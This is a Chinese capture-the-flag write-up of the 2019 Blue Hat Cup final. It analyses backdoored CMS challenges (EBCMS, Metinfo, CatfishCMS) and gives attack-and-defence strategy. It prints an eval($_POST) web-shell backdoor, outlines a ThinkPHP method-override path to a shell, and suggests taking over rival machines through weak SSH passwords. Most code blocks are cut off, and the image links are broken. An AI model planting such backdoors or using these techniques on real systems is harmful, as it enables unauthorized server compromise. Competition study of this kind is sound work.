







2019蓝帽杯决赛复现Write-up
前言
本次比赛共三道WEB，一道PWN。一开场就全场炸鸡，无法ssh，大约过了50分钟才修好（有些队伍早已拿到题进行审计）。时常持续三个小时，通过web2的后门和web3的流量持续拿了不少分。复现一下发现还是有所收获的。（虚拟机总是损坏，拖的比较久，用window搭算了）
Web1-EBCMS-v1.1.0

赛场上没做出来的题，赛后复现一下。
首先和源码diff一下，发现只有如下不同
app/home/controller/Api.php

贴下代码
1 | <?php |
app/member/controller/Api.php

1 | public function imgget(){ |
往下查找success函数定义
/extend/traits/Jump.php
1 | trait Jump{ |
发现是一个回显消息的函数，并没有什么异常，猜测应该是通过该类构造一些恶意payload在入口处发生的反序列化漏洞，wtcl。
然后还找到该版本是一个CNVD-2019-06644。贴上链接。
Web2-Metinfo-6.0.0

这题是2018蓝帽浙江赛区的题目，但做了修改，贴个以前赛区赛题链接
贴个原版本代码漏洞
拉下来与本地源码对比发现，已有漏洞已被修复

拉下来扫描审计发现有好几个后门以及主办方修改的代码（共六个）
/about/index.php
1 | <?php |
index.php后门@eval($_POST['a']);（简单后门就不再多提）
1 | <?php |
door.php后门
1 | <?php @eval($_POST['a']);?> |
/admin/admin/getpassword.php被修改
1 | 这里贴部分被修改后的关键代码 |
源码是没有取$_POST['action']的，这里通过POST取到action，能够进到debug进行文件查找。
admin/system/uploadfile.php
1 | 被修改后代码 |
可以看到这里被修改后的代码直接导致产生任意文件删除，与源码不同的替换回去修补漏洞即可。
/include/ping.php
1 | <?php |
/include/curl.php
1 | <?php |
这里并curl.php没有发现有可疑的地方（直接删除进行防护不碍事），初步猜测是在ping.php有个拼接命令进行执行（路由不清楚，也可以直接删除）。
后门exp这里不在提供，参考 湖北赛区WP
Web3-CatfishCMS-v4.8.54

最近爆出的一个漏洞CNVD-2019-06255
参考链接
可以看到在catfish/library/think/Request.php存在一个变量覆盖函数，通过重新赋值method和$_POST使函数跳转到其他函数去执行。
1 | if (isset($_POST[Config::get('var_method')])) { |
查看application/config.php中var_method默认值，发现是通过_method参数进行赋值。
1 | // 表单请求类型伪装变量 |
那么我们就可以赋值_method=__construct使函数跳转到__construct去执行，
1 | public function __construct($options = []) |
然后通过__construct函数重写config参数值，从而getshell。
最终构成payload

自己跟一遍还是蛮有意思的，主要还是对之前thinkPHP框架的熟悉程度要更加深一些。
附当时写的流量exp：
1 | import time |
AWD比赛中WEB的思路总结
首先确定是否使用ssh弱密码，准备好修改密码的脚本（python一键执行），可进行全场抓肉机。ssh连接上去后，找到源码目录（find命令查找），备份源码（一般都有tar），拉下源码后用工具全局查找后台密码和数据库密码，然后备份数据库（mysql居多），同时用D盾等工具扫描后门，找到后门后先删除自己的后门，然后用事先写好的通打脚本全场拿分。接下来是常规流程，迅速修改后台密码，上log和waf，在代码审计的同时进行日志审计，一旦有一血产生就审计抓取到的日志，分析出可疑日志进行流量复现。
代码审计的思路一般是用本地存取的源码对比比赛中的源码，查找不同点，看是否存在主办方插入的漏洞点（几次比赛下来这点非常重要，有源码才能迅速定位主办方漏洞），如果完全一致，就查找该版本是否存在cve（本地记得存取相应poc）。代码审计完后不要忘记修补好漏洞点，写通打脚本全场拿分。审计代码同时不要遗忘运维的重要性，查看是否被人插入不死马，将不死马进程杀死或者写个定时任务循环删除。每一个环节都至关重要，这里不在细说。
还是那句话，心态要稳，这次由于web较多，操作有点混乱，一旦看到掉分就想着快点补回去（一轮最多400分），导致心态有点崩，还是有些心急了，吸取教训，希望以后能更沉稳一些。